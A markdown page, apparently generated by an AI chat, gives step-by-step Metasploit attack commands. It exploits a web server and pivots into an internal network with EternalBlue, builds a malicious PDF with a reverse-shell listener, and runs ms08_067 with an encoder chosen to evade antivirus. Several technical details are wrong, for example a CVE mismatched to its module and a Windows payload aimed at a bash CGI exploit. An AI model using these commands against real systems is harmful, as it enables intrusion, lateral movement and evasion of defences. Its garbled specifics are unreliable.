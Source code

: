 # Detailed Metasploit Examples with Code

> [!CAUTION]
> **Example 1: Exploiting a Web Server and Pivoting to an Internal Network (with Code)**
> 
> This example builds upon the multi-stage attack from the previous conversation, using a specific vulnerability and including working Metasploit commands.
> 
> **Scenario:** Let's assume your reconnaissance reveals the target organization's web server is running a vulnerable version of Apache with the 'mod\_cgi' module enabled. You plan to exploit a known vulnerability (CVE-2019-0211) that allows remote code execution.

**Steps:**

1. **Launch Metasploit and Select the Exploit:**
2. msfconsole
3. msf6 > use exploit/multi/http/apache\_mod\_cgi\_bash\_env
4. **Configure the Exploit:**
5. msf6 exploit(multi/http/apache\_mod\_cgi\_bash\_env) > set RHOSTS 10.10.10.100 # Replace with target web server IP
6. msf6 exploit(multi/http/apache\_mod\_cgi\_bash\_env) > set TARGETURI /cgi-bin/vulnerable.cgi # Replace with path to vulnerable CGI script
7. **Set the Payload:**
8. msf6 exploit(multi/http/apache\_mod\_cgi\_bash\_env) > set PAYLOAD windows/meterpreter/reverse\_tcp
9. msf6 exploit(multi/http/apache\_mod\_cgi\_bash\_env) > set LHOST 10.10.10.5 # Replace with your IP address
10. msf6 exploit(multi/http/apache\_mod\_cgi\_bash\_env) > set LPORT 4444
11. **Execute the Exploit:**
12. msf6 exploit(multi/http/apache\_mod\_cgi\_bash\_env) > exploit
13. **Pivoting (Assuming Meterpreter session established):**
14. meterpreter > route add 192.168.1.0 255.255.255.0 1 # Add a route to the internal network (replace with actual subnet)
15. meterpreter > run post/windows/gather/arp\_scanner RHOSTS 192.168.1.0/24 # Scan the internal network
16. **Internal System Exploitation (e.g., using EternalBlue):**
17. msf6 > use exploit/windows/smb/ms17\_010\_eternalblue
18. msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set RHOSTS 192.168.1.10 # Replace with target internal system IP
19. msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set PAYLOAD windows/meterpreter/reverse\_tcp
20. msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set LHOST 10.10.10.5
21. msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set LPORT 4445
22. msf6 exploit(windows/smb/ms17\_010\_eternalblue) > exploit

> [!CAUTION]
> 
> **Example 2: Client-Side Attack with a Malicious PDF (with Code)**
> 
> **Scenario:** You want to exploit a vulnerability in Adobe Reader by sending a malicious PDF file.

**Steps:**

1. **Generate the Malicious PDF:**
2. msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.10.5 LPORT=4444 -f pdf > malicious.pdf
3. **Set up a Listener in Metasploit:**
4. msfconsole
5. msf6 > use exploit/multi/handler
6. msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse\_tcp
7. msf6 exploit(multi/handler) > set LHOST 10.10.10.5
8. msf6 exploit(multi/handler) > set LPORT 4444
9. msf6 exploit(multi/handler) > exploit -j # Start the listener in the background
10. **Deliver the malicious.pdf file to the target.** When the target opens the file, you should get a Meterpreter session.

> [!CAUTION]
> **Example 3: Bypassing Antivirus with Encoders (with Code)**
> 
> **Scenario:** You want to use a common exploit like ms08\_067\_netapi but need to evade antivirus detection.
> 
**Steps:**

1. **Select the Exploit:**
2. msfconsole
3. msf6 > use exploit/windows/smb/ms08\_067\_netapi
4. **Set Options and Encoder:**
5. msf6 exploit(windows/smb/ms08\_067\_netapi) > set RHOSTS 10.10.10.80 # Target IP
6. msf6 exploit(windows/smb/ms08\_067\_netapi) > set PAYLOAD windows/meterpreter/reverse\_tcp
7. msf6 exploit(windows/smb/ms08\_067\_netapi) > set LHOST 10.10.10.5
8. msf6 exploit(windows/smb/ms08\_067\_netapi) > set LPORT 4444
9. msf6 exploit(windows/smb/ms08\_067\_netapi) > set ENCODER x86/shikata\_ga\_nai # Choose an encoder
10. **Execute the Exploit:**
11. msf6 exploit(windows/smb/ms08\_067\_netapi) > exploit

> [!NOTE]
> These examples provide a more concrete understanding of how to use Metasploit by combining the conceptual explanations with actual code.
